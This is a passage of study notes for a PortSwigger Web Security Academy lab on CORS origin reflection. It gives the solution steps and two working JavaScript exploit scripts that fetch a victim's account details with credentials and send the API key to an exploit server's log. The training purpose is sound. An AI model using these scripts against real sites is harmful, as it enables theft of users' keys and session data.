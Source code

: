 CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

Rana khalil: 
Lab video:https://www.youtube.com/watch?v=XTFDst3TjMM&ab_channel=RanaKhalil
Lab solution:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/notes.txt
HTML script:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/cors-lab-01.html


```
Lab #1 - CORS vulnerability with basic origin reflection

Target Goal - exploit the CORS misconfiguration to retrieve the administrator's API key

Creds - wiener:peter

Analysis:

Testing for CORS misconfigurations:
1. change the origin to an arbitrary value / True
2.
```

Html script for exploiting CORS:
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0acf00c80446860280902124001f00f0.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
